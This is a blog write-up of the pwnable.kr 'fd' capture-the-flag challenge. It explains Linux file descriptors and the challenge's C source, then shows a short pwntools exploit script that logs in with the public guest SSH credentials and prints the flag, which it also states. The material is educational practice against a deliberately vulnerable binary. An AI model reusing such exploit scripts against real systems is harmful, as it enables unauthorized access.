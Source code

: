 ```yaml
---
layout: post
title: pwnable.kr - fd , Understanding Linux File Descriptors and creating a simple exploit with python pwntools
categories: pwn
tags: [Linux, Binary Exploitation, Exploit Development, c, Python]
image: pwn/fd/0.png
---
```


<hr>
### Introduction
#### Hey guys , Lately I have been doing pwn challenges and I decided to share some stuff with you from time to time like I do with the other write-ups. Today we will solve fd from pwnable.kr , it's a very easy one but as always we will go in detail.
<br>
>  pwn means to compromise or control, specifically another computer (server or PC), website, gateway device, or application. It is synonymous with one of the definitions of hacking or cracking.
-[Wikipedia](https://en.wikipedia.org/wiki/Pwn) 

<br>
![](/images/pwn/fd/0.png)
<hr>
### Challenge Description
```
Mommy! what is a file descriptor in Linux?
ssh fd@pwnable.kr -p2222 (pw:guest)
```
#### We have ssh login info, and some sort of a hint , before doing anything let's talk about file descriptors , because that's what the hint said.
<br>
<hr>
### File descriptors
#### File descriptors simply are indicators or handles used to access a file or i/o (input/output) resource , File descriptors are represented in `c` as integers and there are 3 types of file descriptors :
#### `standard input` (`stdin`) , its integer value is `0`
#### `standard output` (`stdout`) , its integer value is `1`
#### `standard error` (`stderr`) , its integer value is `2`
#### To summarize this up , when you run a program and give it arguments through `sys.argv` for example , that's `stdin` , whatever the program gives you back as an output , that's `stdout` . If the program gave you an error , because you missed a required argument or gave it a wrong argument for example , that's `stderr`.
<br>
<hr>
### Source analysis
#### After we `ssh` to the server (`ssh fd@pwnable.kr -p2222` , password : `guest`) we find 3 files 
![](/images/pwn/fd/1.png)
#### `fd` , `fd.c` and `flag`.
#### `fd` is an executable , and `fd.c` is the source of that executable
![](/images/pwn/fd/2.png)
#### And we don't have permissions to view `flag` :
![](/images/pwn/fd/3.png)
#### Let's take a look at the source : 
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
char buf[32];
int main(int argc, char* argv[], char* envp[]){
        if(argc<2){
                printf("pass argv[1] a number\n");
                return 0;
        }
        int fd = atoi( argv[1] ) - 0x1234;
        int len = 0;
        len = read(fd, buf, 32);
        if(!strcmp("LETMEWIN\n", buf)){
                printf("good job :)\n");
                system("/bin/cat flag");
                exit(0);
        }
        printf("learn about Linux file IO\n");
        return 0;

}
```
### Breakdown :
```
char buf[32];
```
#### This assigns a buffer of 32 chars to the variable `buf`
<br>
```
if(argc<2){
                printf("pass argv[1] a number\n");
                return 0;
        }

```
#### Here it starts by checking if we passed and argument or not , and if we didn't , it will print `pass argv[1] a number`
![](/images/pwn/fd/4.png)
<br>
<br>
```
int fd = atoi( argv[1] ) - 0x1234;
```
#### Then it defines a variable called `fd` , the value of that variable is `atoi( argv[1] ) - 0x1234`. `atoi()` is a function in `c` that converts a string into an integer , it stands for `Ascii to Integer` , `0x1234` is the hex of `4660` 
![](/images/pwn/fd/5.png)
#### So it subtracts 4660 from our input.
<br>
```
int len = 0;
```
#### This defines a variable called `len` and assigns a value of `0` to it
<br>
```
        len = read(fd, buf, 32);
        if(!strcmp("LETMEWIN\n", buf)){
                printf("good job :)\n");
                system("/bin/cat flag");
                exit(0);
        }
        printf("learn about Linux file IO\n");
        return 0;

```
#### Here it's taking `fd` and also reading our input and puts it into `buf` , then there's an if statement which checks if the value of buf is `LETMEIN` , if it's then it will print `good job` and give us the flag , but if it's not it will print `learn about Linux file IO`. 
<br>
<hr>
### Exploitation
#### Now we have an idea about the logic of the program , and a pwn challenge is all about breaking that logic.
#### Let's run the program just to test :
`./fd 1337`
![](/images/pwn/fd/6.png)
#### It prints `learn about Linux file IO` , because we didn't get `fd` right. We know that `fd` is an abbreviation for file descriptor , and there are 3 file descriptors `stdin` `stdout` `stderr` , And we can also control the value of `fd` because we know that it's subtracting 4660 from `argv[1]` and we control `argv[1]` , how are we giving the program `argv[1]` ? Through `stdin` which is represented by `0` , so if we gave the program `4660` , `fd = 4660 - 4660` , `fd = 0`. Let's try it.
![](/images/pwn/fd/7.png)
#### Now it didn't print `learn about Linux file IO` , instead of that it's reading our input --> `len = read(fd, buf, 32);`
#### We knew earlier that we have to make buf = "LETMEWIN" to execute the first `if` condition :
![](/images/pwn/fd/8.png)
#### And we got the flag : "mommy! I think I know what a file descriptor is!!"
<br>
<hr>
### Exploitation with python pwntools
#### We will use a python library called pwntools to create an exploit. Read the documentation [here](http://docs.pwntools.com/en/stable/about.html)
#### We will import the pwntools library :
`from pwn import *`
#### Then we will set up an `ssh` connection to the server :
`shell = ssh('fd' ,'pwnable.kr' ,password='guest', port=2222)`
#### `fd` is the username , `pwnable.kr` is the host
#### After that we will start a process to execute `./fd 4660`
`process = shell.process(executable='./fd', argv=['fd','4660'])`
#### And finally we will send `LETMEWIN` and read the output
`process.sendline('LETMEWIN')`
<br>
<br>
`print process.recv()`
<br>
### Final script :
```
#!/usr/bin/python

from pwn import *

shell = ssh('fd' ,'pwnable.kr' ,password='guest', port=2222)
process = shell.process(executable='./fd', argv=['fd','4660'])
process.sendline('LETMEWIN')
print process.recv()
```
![](/images/pwn/fd/9.png)
#### Let's try it :
`./exploit.py`
![](/images/pwn/fd/10.png)
#### And it's working !
#### That's it , Feedback is appreciated !
#### Don't forget to read the [other write-ups](/categories) , Tweet about the write-up if you liked it , follow on twitter for awesome resources [@Ahm3d_H3sham](https://twitter.com/Ahm3d_H3sham)
#### Thanks for reading.
#### Next pwn write-up : [pwnable.kr - bof](/pwn/bof/)
<br>
<hr>
